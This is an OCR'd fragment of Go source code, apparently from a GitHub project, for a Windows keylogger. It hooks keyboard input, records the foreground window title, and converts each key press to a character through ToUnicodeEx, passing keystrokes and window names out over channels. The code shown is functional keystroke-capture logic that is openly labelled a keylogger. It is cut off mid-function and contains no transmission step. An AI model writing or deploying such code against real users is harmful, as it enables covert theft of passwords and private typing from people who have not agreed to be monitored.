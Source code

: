 ```go
	procGetWindowText.Call(
		uintptr(hwnd),
		uintptr(unsafe.Pointer(&buf[0])),
		uintptr(textLen))

	return syscall.UTF16ToString(buf)
}

// Gets current foreground window
func GetForegroundWindow() uintptr {
	hwnd, _, _ := procGetForegroundWindow.Call()
	return hwnd
}

// Runs the keylogger
func Run(key_out chan rune, window_out chan string) error {
	keyboardChan := make(chan types.KeyboardEvent, 1024)

	if err := keyboard.Install(nil, keyboardChan); err != nil {
		return err
	}

	defer keyboard.Uninstall()

	signalChan := make(chan os.Signal, 1)
	signal.Notify(signalChan, os.Interrupt)

	fmt.Println("start capturing keyboard input")

	for {
		select {
		case <-signalChan:
			fmt.Println("Received shutdown signal")
			return nil
		case k := <-keyboardChan:
			if hwnd := GetForegroundWindow(); hwnd != 0 {
				if k.Message == types.WM_KEYDOWN {
					key_out <- VKCodeToAscii(k)
					window_out <- GetWindowText(HWND(hwnd))
				}
			}
		}
	}
}

// Converts from Virtual-Keycode to Ascii rune
func VKCodeToAscii(k types.KeyboardEvent) rune {
	var buffer []uint16 = make([]uint16, 256)
	var keyState []byte = make([]byte, 256)

	n := 10
	n |= (1 << 2)

	procGetKeyState.Call(uintptr(k.VKCode))

	procGetKeyboardState.Call(uintptr(unsafe.Pointer(&keyState[0])))
	r1, _, _ := procGetKeyboardLayout.Call(0)

	procToUnicodeEx.Call(uintptr(k.VKCode), uintptr(k.ScanCode), uintptr(unsafe.Pointer(&keyState[0])),
		uintptr(unsafe.Pointer(&buffer[0])), 256, uintptr(n), r1)

	if len(syscall.UTF16ToString(buffer)) > 0 {
```